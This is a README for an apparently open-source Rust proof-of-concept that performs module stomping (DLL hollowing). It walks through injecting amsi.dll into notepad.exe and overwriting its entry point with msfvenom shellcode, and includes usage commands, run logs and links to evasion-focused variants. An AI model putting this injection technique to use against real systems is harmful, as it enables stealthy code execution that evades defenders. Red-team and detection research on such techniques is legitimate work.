


# Module Stomping / Module Overloading / DLL Hollowing

A basic/simple PoC in Rust

## Description

Module stomping injects a Microsoft-signed DLL (e.g amsi.dll) using a classic DLL Injection technique that uses as shown here: [Classic DLL Injection in Rust](https://github.com/memN0ps/arsenal-rs/tree/main/dll_injector_classic-rs). It will then read the `AddressOfEntryPoint` of the injected DLL from the target process and overwrite the content with shellcode.

In this example we use the following steps to perfrom a classic DLL Injection of `amsi.dll` inside `notepad.exe` and then inject our shellcode inside `amsi.dll's` entry point:

* `OpenProcess` - Open a handle to the target process with `PROCESS_ALL_ACCESS`
* `VirtualAllocEx` - Allocate memory for `amsi.dll` full path
* `WriteProcessMemory` - Write the DLL path to the target process memory
* `GetModuleHandleA` - Get a handle to `kernel32.dll`
* `GetProcAddress` - Get the address of `LoadLibraryA`
* `CreateRemoteThread` - Create a thread in the target process

We can now inject our shellcode into the target process

* Get the module (amsi.dll) base address from the target process (notepad.exe) that we just injected
* `ReadProcessMemory` - To read the the DOS and NT headers to get the `AddressOfEntryPoint` of `asmi.dll` in the target process (notepad.exe)
* `WriteProcessMemory` - To overwrite the `AddressOfEntryPoint` content with our shellcode
* `CreateRemoteThread`- Create a thread to run the contents of our shellcode inside `amsi.dll` that is inside `notepad.exe` in this example.

Microsoft Signed DLL
```
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> sigcheck C:\Windows\System32\amsi.dll

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\windows\system32\amsi.dll:
        Verified:       Signed
        Signing date:   1:41 PM 9/11/2022
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Anti-Malware Scan Interface
        Product:        Microsoft« Windows« Operating System
        Prod version:   10.0.19041.2075
        File version:   10.0.19041.2075 (WinBuild.160101.0800)
        MachineType:    64-bit
```

Process Monitor's Load Image event shows that `amsi.dll` was loaded.


Process Explorer shows that `amsi.dll` was loaded too and we can see that our shellcode was executed from the `MessageBoxA` pop-up, which was generated by `msfvenom -p windows/x64/messagebox -f rust`



We can look at `notepad.exe` threads that are running, which shows that thread `9616` with the start address of `Amsi!AmsiUacScan+0xabe0`.




We can inspect this memory location in more detail with `Windbg`. The memory location resolves to `Amsi!DLLMainCRTStartup` and the bytes located in this memory location contains our shellcode.


## Usage

```
.\module_stomping-rs.exe <process> <full dll path> <dll name>
```

## Example

Build

```
cargo build --release
```

Enable logging for debugging

```
$env:RUST_LOG="debug"
```

Inject amsi.dll
```
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> .\module_stomping-rs.exe notepad.exe C:\Windows\System32\amsi.dll amsi.dll

[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Process: notepad.exe
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Path: C:\Windows\System32\amsi.dll
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Allocated Memory: 0x202d42c0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Kernel32 Address: 0x7ffa6a510000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] LoadLibraryA address: 0x7ffa6a5304f0
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] C:\Windows\System32\amsi.dll DLL Injection Complete!
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Module Base: 0x7ffa5a6d0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Remote Buffer Length: 0x148
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Bytes Read: 328
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_DOS_HEADER: 0x000002a5c4144b30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_NT_HEADERS: 0x000002a5c4144c30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] AddressOfEntryPoint: 0x7ffa5a6de820
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release>
```

## Note

A more advanced version of this can be found here https://github.com/boku7/Ninja_UUID_Runner by Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku)), which mixes up different process injection techniques for evasion.


## References and Credits

* https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection
* https://thewover.github.io/Dynamic-Invoke/
* https://github.com/hasherezade/module_overloading
* https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing
* https://williamknowles.io/living-dangerously-with-module-stomping-leveraging-code-coverage-analysis-for-injecting-into-legitimately-loaded-dlls/
* https://github.com/boku7/Ninja_UUID_Runner
* https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/